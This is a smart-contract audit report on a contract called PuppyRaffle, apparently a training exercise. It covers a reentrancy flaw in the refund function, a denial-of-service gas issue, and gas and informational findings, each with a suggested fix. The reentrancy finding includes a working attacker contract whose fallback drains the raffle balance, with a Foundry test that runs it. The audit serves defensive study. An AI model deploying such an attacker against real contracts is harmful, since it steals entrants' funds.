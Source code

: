 # High 

### [H-1] Reentrancy attack in `PuppyRaffle::refund` allows entrants to drain contract for raffle balance 

**Description** The `PuppyRaffle::refund` function does not follow CEI (Checks, Effects, Interactions) and as a result enables participants to drain the contract balance 

In the `PuppyRaffle::refund` we first make an external call to the `msg.sender` address and only after making that external call do we update the `PuppyRaffle::players` array.

```javascript

function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

        payable(msg.sender).sendValue(entranceFee);
        
@>        players[playerIndex] = address(0);
@>        emit RaffleRefunded(playerAddress);
    }
```

A player who has entered the raffle could have a fallback/receive function that calls the `PuppyRaffle::refund` again and claim another refund they could continue the cycle till the contract balance is drained.

**Impact** All fees paid by raffle entrants could be stole by the malicious player 

**Proof of Concept**
1. User enters the raffle
2. Attacker set up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle 
4. Attacker calls `PuppyRaffle::refund`from their attack contract, draining the contract balance of the `PuppyRaffle`

**Proof of Code**
<details> <summary>Code</summary>

Place the following into `PuppyRaffleTest.t.sol`

```javascript 

 function test_reentrancyRefund() public {

        address[] memory players = new address[](4);
        players[0] = playerOne;
        players[1] = playerTwo;
        players[2] = playerThree;
        players[3] = playerFour;
        puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
        address attackUser  = makeAddr("attackUser");
        vm.deal(attackUser, 1 ether);


        uint256 startingAttackBalance = address(attackerContract).balance;
        uint256 startingPuppyBalance = address(puppyRaffle).balance; 

        vm.prank(attackUser);
        attackerContract.attack{value: entranceFee}();

        console.log("starting attack contract balance", startingAttackBalance);
        console.log("starting puppy contract balance", startingPuppyBalance);

        console.log("ending attack contract balance", address(attackerContract).balance);
        console.log("ending puppy contract balance", address(puppyRaffle).balance);


    }


```
And this contract as well 

```javascript 

contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle; 
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
       _stealMoney();
    }

    receive() external payable {
       _stealMoney();
    }
}

```

</details>

**Recomended Mitigation** 

To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array first before making the external call. Additionally we should move the event emission up as well

```diff

function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+       players[playerIndex] = address(0);
+       emit RaffleRefunded(playerAddress);

        payable(msg.sender).sendValue(entranceFee);
        
-        players[playerIndex] = address(0);
-        emit RaffleRefunded(playerAddress);
    }

```

# Medium

## [M-N] Looping through players array to check for duplicate in `PuppyRaffle::enterRaffle` is a potential Denial of Service attack (DoS), incrementing gas cost for future entrant 

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, the longer the  `PuppyRaffle::players` array the more checks a player will have to make. This means the gas costs for players who entered earlier will be dramatically lower than the gas cost for players who enters later. Every additional address that is pushed to the array is an additional check that has to be made by players.

**Impact:** The gas cost for raffle entrants will greatly increase as more players enters the raffle. This discourages later users and causes a rush at the start of the raffle to be early in the queue. 

An attacker might make the `PuppyRaffle::players` so big that no one else enters thereby guaranteeing them as the winner. 

**Proof Of Concept:** 

if we have two sets of 100 players the gas cost would be as such 
- 1st 100 players - 6252128
- 2nd 100 players - 18068218

This is more than 2x more expensive for the 2nd 100 players

```javascript 
// @audit DoS attack
@>   for (uint256 i = 0; i < players.length - 1; i++) {
            for (uint256 j = i + 1; j < players.length; j++) {
                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
            }
        }

```

<details>
<summary> Poc </summary>

Place the following test into PuppyRaffleTest.t.sol

```javascript 

    function test_denialOfService() public {

        vm.txGasPrice(1);

        uint256 playersNum = 100; 
        address[] memory players = new address[] (playersNum);

        for(uint256 i = 0; i < playersNum; i++){
            players[i] = address(i);
        }

        uint256 gasStart = gasleft();

        puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
        uint256 gasEnd = gasleft();
        uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;

        console.log("Gas used by 200 players", gasUsedFirst);


        address[] memory playersTwo = new address[] (playersNum);

        for(uint256 i = 0; i < playersNum; i++){
            playersTwo[i] = address(i + playersNum);
        }

        uint256 gasStartSecond = gasleft();
        
        puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();
        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond) * tx.gasprice;

        console.log("Gas used by 200 players", gasUsedSecond);

        assert(gasUsedSecond > gasUsedFirst);

    }

```
</details>

**Recommended Mitigation:**

1. Consider allowing duplicates. Users can make new wallet addresses anyways, so a duplicate check doesn't prevent the same person from entering multiple times, only the same wallet address.

2. Consider using a mapping to check duplicates. This would allow you to check for duplicates in constant time, rather than linear time. You could have each raffle have a `uint256` id, and the mapping would be a player address mapped to the raffle Id. 

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;            
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }    
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

Alternatively, you could use [OpenZeppelin's `EnumerableSet` library](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet).

# Gas

### [G-1] Unchanged state variables should be declared as immutable or constant

Reading from a storage variable is more expensive than reading from a constant  or immutable variables  

Instances
- `PuppyRaffle::raffleDuration` should be `immutable`
- `PuppyRaffle::commonImageUri` should be `constant`
- `PuppyRaffle::rareImageUri` should be `constant`
- `PuppyRaffle::legendaryImageUri` should be `constant`

### [G-2] Storage variable in a loop should be cached 

Everytime you call `players.lenght` you read from storage as opposed to memory which is more gas efficient 

``` diff
+    uint256 playersLength = players.length 
-    for (uint256 i = 0; i < players.length - 1; i++) {
+    for (uint256 i = 0; i < playersLength - 1; i++) {
-               for (uint256 j = i + 1; j < players.length; j++) {
+               for (uint256 j = i + 1; j < playersLength; j++) {
                    require(players[i] != players[j], "PuppyRaffle: Duplicate player");
                }
            }


```


# Informational

### [I-1] Solidity pragma should be specific, not wide

Consider using a specific version of Solidity in your contracts instead of a wide version. For example, instead of `pragma solidity ^0.8.0;`, use `pragma solidity 0.8.0;`

<details><summary>1 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 2](src/PuppyRaffle.sol#L2)

	```solidity
	pragma solidity ^0.7.6;
	```

</details>

### [I-2] Using an outdated version of solidity is not recommended

solc frequently releases new compiler versions. Using an old version prevents access to new Solidity security checks. We also recommend avoiding complex pragma statement.

**Recommendation**
Deploy with a recent version of Solidity (at least `0.8.0`) with no known severe issues.

Use a simple pragma version that allows any of these versions. Consider using the latest version of Solidity for testing.

Please see [slither](https://github.com/crytic/slither/wiki/Detector-Documentation#incorrect-versions-of-solidity) documentation for more information 

### [I-3] Missing checks for `address(0)` when assigning values to address state variables

Check for `address(0)` when assigning values to address state variables.

<details><summary>2 Found Instances</summary>


- Found in src/PuppyRaffle.sol [Line: 70](src/PuppyRaffle.sol#L70)

	```solidity
	        feeAddress = _feeAddress;
	```

- Found in src/PuppyRaffle.sol [Line: 227](src/PuppyRaffle.sol#L227)

	```solidity
	        feeAddress = newFeeAddress;
	```
